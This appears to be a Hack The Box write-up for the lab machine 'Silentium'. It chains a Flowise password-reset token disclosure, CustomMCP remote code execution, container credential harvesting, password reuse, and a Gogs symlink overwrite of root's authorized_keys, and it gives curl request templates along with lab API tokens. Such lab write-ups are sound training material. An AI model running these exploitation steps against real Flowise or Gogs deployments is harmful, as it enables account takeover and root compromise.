








````markdown
# Silentium HTB Machine

## Overview

**Silentium** is an Easy-difficulty Linux machine that begins with the discovery of a **Flowise** instance on a staging subdomain. The application is running Flowise version **3.0.5**, which is affected by several vulnerabilities, including **CVE-2025-58434** and **CVE-2025-59528**. CVE-2025-58434 allows an unauthenticated attacker to obtain a valid password-reset token, leading to account takeover. After gaining access to Flowise, CVE-2025-59528 can be exploited through the **CustomMCP** node to achieve remote code execution inside the Docker container. :contentReference[oaicite:0]{index=0}

Environment variables exposed inside the container reveal credentials that can be reused to obtain SSH access as the `ben` user on the host. Further enumeration reveals an internal **Gogs** instance running version **0.13.3**. This version is vulnerable to **CVE-2025-8110**, which affects symbolic-link handling in the `PutContents` API and allows an authenticated user to overwrite files outside the repository. This can be leveraged to write an SSH public key into root's `authorized_keys`, resulting in a root shell. :contentReference[oaicite:1]{index=1}

---
# COMPLETE ATTACK CHAIN

If you just want hints, The complete attack path can be summarized as:

```text
                         Silentium
                             |
                             v
                      Nmap Enumeration
                             |
                             v
                     Port 80 - nginx
                             |
                             v
                    Subdomain Enumeration
                             |
                             v
                  staging.silentium.htb
                             |
                             v
                    Flowise 3.0.5
                             |
                             v
                   CVE-2025-58434
                             |
                             v
              Password Reset Token Disclosure
                             |
                             v
                    Account Takeover
                             |
                             v
                       ben@silentium.htb
                             |
                             v
                     Flowise API Key
                             |
                             v
                   CVE-2025-59528
                             |
                             v
                     CustomMCP RCE
                             |
                             v
                   Flowise Docker Container
                             |
                             v
                    Environment Variables
                             |
                             v
                       Password Reuse
                             |
                             v
                       SSH as ben
                             |
                             v
                         User Flag
                             |
                             v
                   Internal Port 3001
                             |
                             v
                       SSH Tunneling
                             |
                             v
                         Gogs
                             |
                             v
                      Gogs 0.13.3
                             |
                             v
                   CVE-2025-8110
                             |
                             v
                  Symlink File Overwrite
                             |
                             v
              /root/.ssh/authorized_keys
                             |
                             v
                     SSH Public Key
                             |
                             v
                       SSH as root
                             |
                             v
                        Root Flag
```

---

# Step-By-Step Walkthrough

## 1. ENUMERATION

The first step is to perform a service-version scan against the target.

### Nmap Scan

```bash
nmap -sV 10.129.135.211
````

The scan returns:

```text
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-20 02:24 EDT
Nmap scan report for 10.129.135.211
Host is up (1.1s latency).
Not shown: 998 closed tcp ports (reset)

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.15 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.24.0 (Ubuntu)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The two exposed services are:

| Port | Service | Version              |
| ---- | ------- | -------------------- |
| 22   | SSH     | OpenSSH 9.6p1 Ubuntu |
| 80   | HTTP    | nginx 1.24.0         |

The web service on port `80` is the primary target for further enumeration.

# 2. WEB ENUMERATION

While enumerating the web application, the domain configuration indicates that the target uses the `silentium.htb` domain. This can be done only after adding it to the /etc/hosts file.

An attempt to access an unknown subdomain results in an NXDOMAIN response. Therefore, subdomain enumeration is performed.


## Subdomain Enumeration

`ffuf` can be used to enumerate virtual hosts/subdomains.

```bash
ffuf -u http://silentium.htb/ \
-H "Host: FUZZ.silentium.htb" \
-w <wordlist>
```

During enumeration, the following staging subdomain is discovered:

```text
staging.silentium.htb
```

The staging subdomain points to a **Flowise** instance.



# 3. FLOWISE ENUMERATION

Flowise exposes an API endpoint that reveals its version.
The endpoint is:

```text
http://staging.silentium.htb/api/v1/version
```
Querying the endpoint reveals:

```text
3.0.5
```


Therefore, the target is running:

```text
Flowise 3.0.5
```

This is significant because Flowise 3.0.5 is affected by multiple vulnerabilities.
Among the relevant vulnerabilities are:

* **CVE-2025-58434** — Password reset token disclosure leading to account takeover
* **CVE-2025-59527** — SSRF
* **CVE-2025-59528** — Remote Code Execution through the CustomMCP node

Flowise 3.0.5 is affected by CVE-2025-58434 and CVE-2025-59528, both of which were fixed in Flowise 3.0.6. ([GitLab Advisory Database][1])


# 4. CVE-2025-58434 — PASSWORD RESET TOKEN DISCLOSURE

The first vulnerability used is this.This vulnerability affects the Flowise `forgot-password` functionality.

The vulnerable endpoint returns sensitive information, including a valid password-reset `tempToken`, without requiring authentication or proper verification.

An attacker can therefore request a password reset for another user, obtain the reset token, and use it to reset that user's password.

This results in account takeover.

CVE-2025-58434 affects Flowise versions before `3.0.6` and is rated **Critical** with a CVSS v3.1 score of `9.8`. ([GitLab Advisory Database][1])



# 5. USER ENUMERATION

The Flowise homepage contains several names under the leadership section. These names can be used to construct likely email addresses. A common email format is tested against the application.
One of the discovered valid addresses is:

```text
ben@silentium.htb
```
This indicates that `ben` is a valid account on the Flowise instance.


# 6. PASSWORD RESET TOKEN

The password-reset functionality can be investigated through the browser's developer tools.

Open:

```text
Developer Tools → Network
```

Then use the **Forgot Password** functionality. The request reveals that the server returns a password-reset token. The token can then be used to complete the password-reset process. This allows the password of the `ben@silentium.htb` account to be changed. The account can now be accessed using the newly configured password.

# 7. FLOWISE ACCOUNT ACCESS

After changing the password, log in to the Flowise instance using (Burp suite can be used):


```text
Email:
ben@silentium.htb

Password:
<NEW_PASSWORD>
```

Once authenticated, additional Flowise functionality becomes accessible. The application exposes an SDK/API configuration containing an API key. The recovered API key from the machine is:

```text
hWp_8jB76zi0VtKSr2d9TfGK1fm6NuNPg1uA-8FsUJc
```
This key can be used to interact with the Flowise API.

# 8. CVE-2025-59528 — CUSTOMMCP RCE

The next vulnerability is this. This vulnerability affects Flowise version `3.0.5`.

The vulnerable functionality is the **CustomMCP** node. Flowise processes the user-controlled `mcpServerConfig` value and passes it into JavaScript evaluation through the `Function()` constructor.

Because the supplied input can therefore be interpreted as JavaScript, an attacker can execute arbitrary JavaScript code with the privileges of the Flowise Node.js process.
The vulnerable code can access functionality such as:

```text
child_process
fs
```

which can lead to command execution and filesystem access. CVE-2025-59528 affects Flowise `3.0.5` and was fixed in `3.0.6`. ([GitHub][2])


# 9. CUSTOMMCP EXPLOITATION

The CustomMCP functionality is accessed through the Flowise API.
The vulnerable endpoint is:

```text
POST /api/v1/node-load-method/customMCP
```

The API key obtained earlier can be supplied as the authentication token. A malicious `mcpServerConfig` value can then be used to trigger JavaScript execution.
For example, the vulnerability can be demonstrated using a request similar to:

```bash
curl -X POST http://staging.silentium.htb/api/v1/node-load-method/customMCP \
-H "Content-Type: application/json" \
-H "Authorization: Bearer <FLOWISE_API_KEY>" \
-d '{
  "loadMethod": "listActions",
  "inputs": {
    "mcpServerConfig": "<MALICIOUS_JAVASCRIPT>"
  }
}'
```

The vulnerability allows the attacker-controlled JavaScript to execute inside the Flowise process. This provides **Remote Code Execution** inside the Flowise container. The underlying vulnerability is an improper control of code generation caused by evaluating attacker-controlled input through the JavaScript `Function()` constructor. ([GitHub][2])

The successful exploitation provides command execution inside the Flowise Docker container. At this point, the objective is to enumerate the container environment and determine whether sensitive credentials are available.

Environment variables are particularly interesting because applications running inside containers commonly receive credentials through environment variables.

# 10. ENVIRONMENT VARIABLE ENUMERATION

The environment can be inspected using:

```bash
env
```

or:

```bash
printenv
```

During enumeration, a password associated with the mail configuration is discovered. The important observation is that this password may not be limited to the container application. Password reuse should therefore be tested against users on the host system.



# 11. PASSWORD REUSE

The discovered password can be tested against the `ben` user.Since SSH is exposed on port `22`, attempt to authenticate using:

```bash
ssh ben@silentium.htb
```

Enter the recovered password when prompted.The credentials are reused on the host, resulting in SSH access.

The user flag can now be retrieved!!!!!!

# 12. PRIVILEGE ESCALATION ENUMERATION

With access as `ben`, the next objective is to identify services running locally that are not exposed externally.
A useful command is:

```bash
netstat -tulnp
```

This lists listening TCP/UDP sockets and the processes associated with them. During enumeration, a service is found listening on:

```text
3001
```

The service is not directly exposed through the external interface. This suggests that it may be an internal web application.



# 13. SSH TUNNELING

Since port `3001` is accessible from the host but not directly from the attacker machine, SSH local port forwarding can be used.

The tunnel can be created with:

```bash
ssh -L 3001:127.0.0.1:3001 ben@silentium.htb
```

This forwards:

```text
Attacker localhost:3001
        ↓
SSH Tunnel
        ↓
Target 127.0.0.1:3001
```

The internal service can now be accessed through:

```text
http://127.0.0.1:3001
```

# 14. GOGS ENUMERATION

The service running on port `3001` is identified as **Gogs**, a self-hosted Git service. The Gogs application can be accessed through the SSH tunnel. The application allows users to register accounts. During enumeration, it is discovered that the `ben` user already has an account on the Gogs instance. This provides an authenticated account that can be used for further investigation.

# 15. GOGS VERSION ENUMERATION

Further filesystem enumeration reveals the Gogs installation. The Gogs version can be determined from the installation. The installed version is:

```text
0.13.3
```

This version is particularly interesting because Gogs `0.13.3` and earlier are affected by:

```text
CVE-2025-8110
```

# 16. CVE-2025-8110 — GOGS SYMLINK VULNERABILITY

**CVE-2025-8110** is a vulnerability in Gogs involving improper symbolic-link handling in the `PutContents` API.The affected endpoint is:

```text
/api/v1/repos/:owner/:repo/contents/:path
```

The API performs path validation but does not properly account for symbolic links. An authenticated user can create a symbolic link inside a repository that points to a file outside the repository and then use the `PutContents` API to write attacker-controlled content through that link. This results in an **arbitrary file overwrite** outside the repository. When Gogs has sufficient privileges, this can be escalated to local code execution and potentially complete system compromise.

Gogs versions up to and including `0.13.3` are affected. The vulnerability is classified as **CWE-22: Improper Limitation of a Pathname to a Restricted Directory (Path Traversal)**. ([GitLab Advisory Database][3])

# 17. GOGS API TOKEN

After authenticating to Gogs, an API token can be generated. The generated token is:

```text
75add82554421c778d33d7bdbb4e8ebd118e6afc
```

The token can be supplied in API requests using:

```text
Authorization: token <API_TOKEN>
```

For example:

```bash
-H "Authorization: token <API_TOKEN>"
```


# 18. SSH KEY GENERATION

An SSH key pair is generated for the attack. An Ed25519 key can be generated using:

```bash
ssh-keygen -t ed25519 -f ~/test/ed25519
```

This creates:

```text
~/test/ed25519
~/test/ed25519.pub
```

The private key is:

```text
~/test/ed25519
```

The public key is:

```text
~/test/ed25519.pub
```

The public key will eventually be written to:

```text
/root/.ssh/authorized_keys
```

# 19. PREPARING THE SYMLINK ATTACK

The goal is to exploit Gogs' handling of symbolic links. The attack works conceptually as follows:

```text
Gogs Repository
      |
      v
Symbolic Link
      |
      v
/root/.ssh/authorized_keys
      |
      v
PutContents API
      |
      v
Arbitrary File Overwrite
      |
      v
Root SSH Key Added
      |
      v
SSH as root
```

A repository owned by the authenticated user is used for the operation. The repository contains a symbolic link that points to:

```text
/root/.ssh/authorized_keys
```

The vulnerable `PutContents` API can then be used to write the attacker's public key through the symbolic link.

# 20. PUTCONTENTS API EXPLOITATION

The vulnerable API endpoint follows the format:

```text
/api/v1/repos/<owner>/<repo>/contents/<path>
```

In this case, the request is made against:

```text
/api/v1/repos/test/test/contents/overwrite_me?ref=master
```

The request uses the generated Gogs API token.

Example:

```bash
curl -X PUT \
-H "Authorization: token <API_TOKEN>" \
-H "Content-Type: application/json" \
"http://staging-v2-code.dev.silentium.htb/api/v1/repos/test/test/contents/overwrite_me?ref=master" \
-d '{
    "message": "overwrite via symlink",
    "content": "<BASE64_PUBLIC_KEY>",
    "sha": "<FILE_SHA>"
}' | jq
```

The important parameters are:

| Parameter       | Purpose                             |
| --------------- | ----------------------------------- |
| `Authorization` | Authenticates to the Gogs API       |
| `message`       | Commit message                      |
| `content`       | Base64-encoded public key           |
| `sha`           | SHA of the existing repository file |

The exact `API_TOKEN`, Base64-encoded public key, and SHA should be replaced with the values generated during the attack.

# 21. SSH PUBLIC KEY OVERWRITE

The public key is written through the symbolic link into:

```text
/root/.ssh/authorized_keys
```

Because the vulnerable Gogs process has permission to write the target file, the root user's SSH authorized keys are modified. The attacker's public key is therefore added as an authorized key for `root`.This provides a way to authenticate to the system as root without knowing the root password.

# 22. ROOT ACCESS

The private key generated earlier can now be used for SSH authentication.
The SSH command is:

```bash
ssh -i ~/test/ed25519 root@staging-v2-code.dev.silentium.htb
```

If the public key was successfully written to:

```text
/root/.ssh/authorized_keys
```

the SSH connection authenticates as:

```text
root
```

Verify the current user:

```bash
whoami
```

Expected output:

```text
root
```

The machine has now been fully compromised and we can get the Root flag!!!

# 23. KEY TAKEAWAYS

The Silentium machine demonstrates how vulnerabilities across multiple components can be chained together to achieve complete system compromise. The initial access begins with a vulnerable password-reset implementation in Flowise, where a valid reset token can be disclosed without authentication. This leads to account takeover and access to the Flowise API. The compromised Flowise instance can then be exploited through the vulnerable CustomMCP functionality, resulting in remote code execution inside the Docker container. Environment-variable enumeration reveals credentials that are reused by the `ben` user on the host, providing SSH access and the user flag. Further local enumeration identifies an internal Gogs instance. SSH tunneling exposes the service, and version enumeration reveals Gogs `0.13.3`, which is affected by CVE-2025-8110. The Gogs vulnerability allows an authenticated user to abuse symbolic-link handling in the `PutContents` API to overwrite a file outside the repository. By targeting `/root/.ssh/authorized_keys`, an attacker-controlled SSH public key can be installed for root, resulting in a root shell.

---

# 24. TOOLS USED

| Tool                    | Purpose                             |
| ----------------------- | ----------------------------------- |
| Nmap                    | Port and service enumeration        |
| ffuf                    | Subdomain/virtual-host enumeration  |
| Browser Developer Tools | Inspecting password-reset requests  |
| cURL                    | API interaction and exploitation    |
| jq                      | JSON parsing and formatting         |
| SSH                     | Remote access                       |
| SSH Tunneling           | Accessing the internal Gogs service |
| netstat                 | Local service enumeration           |
| ssh-keygen              | Generating the Ed25519 SSH key pair |

# 25. REFERENCES

* [CVE-2025-58434 — Flowise Password Reset Token Disclosure](https://nvd.nist.gov/vuln/detail/CVE-2025-58434)
* [CVE-2025-59528 — Flowise Remote Code Execution](https://nvd.nist.gov/vuln/detail/CVE-2025-59528)
* [CVE-2025-8110 — Gogs Symlink Handling Vulnerability](https://nvd.nist.gov/vuln/detail/CVE-2025-8110)
* [Flowise Security Advisory — CVE-2025-59528](https://github.com/advisories/GHSA-3gcm-f6qx-ff7p)
* [Gogs Security Advisory — CVE-2025-8110](https://github.com/advisories/GHSA-mq8m-42gh-wq7r)
